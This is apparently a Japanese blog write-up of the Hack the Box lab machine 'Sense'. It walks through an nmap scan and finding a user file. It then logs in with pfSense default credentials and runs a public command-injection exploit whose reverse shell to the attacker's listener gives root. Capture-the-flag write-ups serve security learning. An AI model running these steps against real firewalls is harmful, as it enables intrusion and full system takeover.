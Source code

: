 ```yaml
---
title: "【Hack the Box write-up】Sense"
date:  "2020-04-12T15:04:05+07:00"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Sense"
draft: true
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```

## はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)
## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## machineについて
難易度は easy です。
![スクリーンショット 2020-04-12 15.16.04.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/186a9d13-f491-43cc-e7fe-7e8ddcd34db7.png)

OSCPlike な machine だそうです
https://www.netsecfocus.com/oscp/2019/03/29/The_Journey_to_Try_Harder-_TJNulls_Preparation_Guide_for_PWK_OSCP.html#vulnerable-machines

## nmap

```
kali@kali:~$ nmap -sC -sV  10.10.10.60
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-12 00:34 EDT
Nmap scan report for 10.10.10.60
Host is up (0.22s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.22 seconds
```

## 443ポートを見てみる
![スクリーンショット 2020-04-12 15.18.00.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/47820283-1e0a-2c66-01b8-630fd84fa73e.png)

こんな感じの login フォームが出てきます


## dirbuster
（途中までですが）

![スクリーンショット 2020-04-12 16.45.25.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/a4130212-d9ff-a0d8-3039-8067e2c6fbd2.png)
system-users.txt って言う怪しいのが出てきました

## system-users.txtを見る

```
####Support ticket###

Please create the following user

username: Rohit
password: company defaults
```

default の password は以下から pfsense だとわかります
https://docs.netgate.com/pfsense/en/latest/usermanager/pfsense-default-username-and-password.html

## login

login すると以下のようなページが出てきます
![スクリーンショット 2020-04-12 14.08.24.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/9d601c71-b74d-bca3-d869-1c1562be66ea.png)

これで pfsense の version が `2.1.3-release` だとわかります

## searchsploit

```
kali@kali:~$ searchsploit pfsense
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                        |  Path
                                                                                                                                      | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scripting                                                                                    | exploits/hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting                                                                                          | exploits/hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting                                                                                      | exploits/hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting                                                                                  | exploits/hardware/remote/35070.txt
pfSense - (Authenticated) Group Member Remote Command Execution (Metasploit)                                                          | exploits/unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities                                                          | exploits/php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Command Execution                                          | exploits/php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal                                                                                 | exploits/php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities                                                                                                | exploits/php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal                                                                                                   | exploits/php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution                                                                                                   | exploits/php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery                                                                     | exploits/php/webapps/41501.txt
pfSense 2.4.1 - Cross-Site Request Forgery Error Page Clickjacking (Metasploit)                                                       | exploits/php/remote/43341.rb
pfSense 2.4.4-p1 (HAProxy Package 0.59_14) - Persistent Cross-Site Scripting                                                          | exploits/php/webapps/46538.txt
pfSense 2.4.4-p1 - Cross-Site Scripting                                                                                               | exploits/multiple/webapps/46316.txt
pfSense 2.4.4-p3 (ACME Package 0.59_14) - Persistent Cross-Site Scripting                                                             | exploits/php/webapps/46936.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                                                        | exploits/php/webapps/43560.py
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                                                                            | exploits/php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                                                                       | exploits/php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                                                                          | exploits/php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                                                                     | exploits/freebsd/webapps/24439.txt
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result

```

`pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection `を試してみます

## exploit

```
$ python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.13 --lport 1212 --username rohit --password pfsense
```

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.60] 62626
sh: can't access tty; job control turned off
## whoami
root
```

一発で root まで取れてしまいました

## 終わりに
今回はかなり簡単な machine でした。
頑張って精進していきます

